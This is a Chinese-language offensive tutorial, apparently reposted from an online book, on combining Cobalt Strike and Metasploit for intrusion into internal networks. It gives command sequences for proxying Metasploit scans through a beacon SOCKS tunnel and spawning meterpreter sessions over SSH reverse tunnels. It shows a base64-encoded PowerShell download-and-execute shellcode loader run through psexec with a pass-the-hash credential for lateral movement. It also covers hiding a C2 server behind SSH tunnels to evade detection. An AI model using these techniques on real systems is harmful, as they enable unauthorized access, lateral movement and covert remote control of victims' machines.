









# CobaltStrike 与 Metasploit 实战联动

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/35.html](http://book.iwonder.run/Tools/Cobalt Strike/35.html)

## 0x01 前言

> 关于 cobalstrike[以下全部简称"cs"] 和 Metasploit [以下全部简称 "msf"] 想必此处就不用再多废话了,总之,两者各有所长,比如,前者更适合做个稳控平台,后者则更擅长各类内网搜集和漏洞利用,而我们今天的目的就是为了把两者的优点尽可能的灵活结合起来进行运用,让各自相互依托,去做自己最擅长的事情,废话不多讲,来看实际操作

## 0x02 通过 beacon 内置的 socks 功能将本地 Msf 直接代入目标内网进行操作

> 首先,到已控目标内网机器的 beacon shell 下把 socks 起起来,[ 注: 今天此处所演示的,全部都是在 system 权限进行操作 ]

```
beacon> getuid
beacon> socks 1080 
```


> 接着,点开 cs 菜单找到"Proxy Pivots"复制生成的 msf 代理链接


> 本地启动 msf,挂着上面生成的代理链接,即可直接对目标内网进行各种探测,实际效果如下

```
msf > setg Proxies socks4:138.128.218.66:1080 意思就是让本地的 msf 走上面 cs 的 socks 代理
msf > setg ReverseAllowProxy true 建双向通道
msf > use auxiliary/scanner/smb/smb_version 拿着 msf 中的各类探测模块对目标内网进行正常探测即可,比如,识别目标内网所有 windows 机器的详细系统版本,机器名和所在域
msf > set rhosts 172.17.180.0/24 指定 CIDR 格式的目标内网段,掩码可根据实际情况给的大一点,比如,0/20,0/16...
msf > set threads 1 线程不易给的太大,可根据目标实际情况,控制在 10 以内
msf > run 
```


> 利用这种方式可以极大的帮我们解决要自己往上传工具的不便及尴尬

## 0x03 尝试借助 CobaltStrike 的外部 tcp 监听器通过 ssh 隧道直接派生一个 meterpreter 的 shell 到本地

> 先在 cs 上创建一个 tcp 的外部监听器,回连端口设为 8080



> 接着,到本地机器把 msf 起起来,并创建如下监听器

```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp 注: 此处的协议格式务必要和上面 cs 外部监听器的协议对应,不然 meter 是无法正常回连的
msf > set lhost 192.168.3.137
msf > set lport 8080
msf > exploit 
```


> 随后,回到自己的 vps 机器上编辑 sshd 配置,开启 ssh 转发功能,重启 ssh 服务,这是所有使用 ssh 隧道转发前的必备操作,后续不再啰嗦

```
# vi /etc/ssh/sshd_config
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
PasswordAuthentication yes
# systemctl restart sshd.service 
```

> 再次回到自己本地的 linux 中并通过 ssh 隧道做好如下转发,意思就是通过 20.37.125.56 这台机器把来自外部的 8080 端口流量全部转到我本地 192.168.3.137 的 8080 端口上,而本地 192.168.3.137 的 8080 端口上跑的又正好是 meter 的监听器,所以,最终才会造成 meterpreter 本地上线的效果

```
# ssh -C -f -N -g -R 0.0.0.0:8080:192.168.3.137:8080 root@20.37.125.56 -p 22 
```


> 隧道建立之后,习惯性的到 vps 上去看一眼,刚才通过隧道监听的 8080 端口到底有没有起来,确实起起来了才说明隧道才是通的,另外,监听的端口不能和 vps 机器上的现有端口冲突,否则隧道是建不成功的

```
# netstat -tulnp | grep '8080' 
```


> 最终,回到 cs 上选择目标内网指定机器的 beacon shell 点击"Spawn"派生,再选择刚在上面创建好的 tcp 的外部监听器,相应目标机器的 meterpreter 就会被直接弹到本地,如下,当然,你也可以批量选择进行操作






## 0x04 尝试利用 msf 的各类 exp 模块直接弹回一个 beacon shell

> 如下,先准备好一段 64 位的 shellcode,如下



> 而后,再对 Invoke-Shellcode.ps1 脚本中的 64 位 shellcode 进行替换


> 因为后续需要利用 powershell 远程加载执行 shellcode,所以为了方便执行,得事先把 powershell 加载语句编码整理下,如下

```
PS C:\> $text = "IEX (New-Object Net.WebClient).DownloadString('https://*/master/Invoke-Shellcode.ps1'); Invoke-demo -Force"
PS C:\> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS C:\> $EncodedText =[Convert]::ToBase64String($Bytes)
PS C:\> $EncodedText > bs64.txt 
```



> 比如我们现在通过其它方式拿到了目标内网的某台 windows 机器的本地管理员密码 hash,就可以尝试利用 psexec_command 模块借助这种方式来直接反弹指定目标机器的 beacon shell,也算一种简单的横向方式

```
msf > use auxiliary/admin/smb/psexec_command
msf > set rhost 192.168.3.11
msf > set smbuser administrator
msf > set smbpass AAD3B435B51404EEAAD3B435B51404EE:CCEF208C6485269C20DB2CAD21734FE7
msf > set command powershell -exec bypass -encodedcommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZ*
msf > set threads 1
msf > run 此处不用管它服务到底没有启动成功 
```


> 最终,成功上线效果


## 0x05 灵活利用 ssh 隧道深度隐藏 C2 [ becon 本地上线 ,适合临时渗透用 ]

> 首先,创建一个普通的 http 反向 beacon 监听器,并用该监听器生成一个 64 位的 exe payload,随后再立即删除该监听器,具体如下


> 而后,回到自己本地的 linux 中,开始尝试和自己的 vps 建立 ssh 隧道,注意,此处用于建立隧道的这台 vps 和我们 cs 团队服务器所在的 vps 不是同一台机器[实际中有条件的情况下,也建议不要用同一台],转发和上面的那个 ssh 隧道差不太多,只不过这里是通过 20.37.125.56 这台机器把外部的 8080 端口都转到了本地 192.168.3.137 的 80 端口上,而这个 80 端口上跑的也就是我们下面创建的那个 inside 监听器,所以最终才会造成 beacon 的本地上线

```
# ssh -C -f -N -g -R 0.0.0.0:8080:192.168.3.137:80 root@20.37.125.56 -p 22 
```



> 此处还是习惯性的到建立隧道的那台 vps 上,看看刚刚隧道监听的端口有没有起来



> 紧接着,再次回到自己本地的 linux 中,启动 cs 团队服务器和客户端

```
# ./teamserver 192.168.3.137 admin
# ./cobaltstrike 
```


> 继续创建 http 反向 beacon 监听器,注意,此处 inside 监听器的类型和上面 outside 监听器的类型务必要保持完全一致,不然,beacon 是弹不回来的



> 最后,把上面那个用 outside 监听器创建的 exe payload 丢到目标机器上去执行,实现的最终效果就是把来自公网的 beacon shell 通过 ssh 隧道直接弹到了本地,避免了直接把 cs 团队服务器暴露在公网



## 小结

> 小结: 以上每种方式其实都对应的有特定的渗透场景,至于实战中如何灵活配合利用,就要看弟兄们自己的实际需求了,另外多说一点,似乎很多人都在以讹传讹,觉得现在 msf 完全没有任何用武之地,其实,不然,当然啦,如果你就只想用它的各类 exp 和 payload 模块,对现如今的实战场景确实没啥卵用[如果你就不做任何处理直接默认用的话],也不用想了,因为各类传统监控和杀软早都已围追堵截,不过,我想说的是,你大可以不必用这些大家天天都死死盯着的东西,比如,某些内网探测模块一直都很好用呀,而且控制的好,动静儿也并不会非常大,重要的是,各个厂商也几乎都不怎么关注这些无关痛痒的辅助模块,关注更多的还是那堆致命的 exp 和 payload 的模块,所以,自己也经常强调,工具是死的,人是活的,关于 Cs 和 msf 联动配合利用方式还远不止这些,来日方长,我们后续再慢慢说,考虑到文章篇幅,有些地方说的并不是非常细致,弟兄们有任何问题,随时反馈就好,最后,祝好运

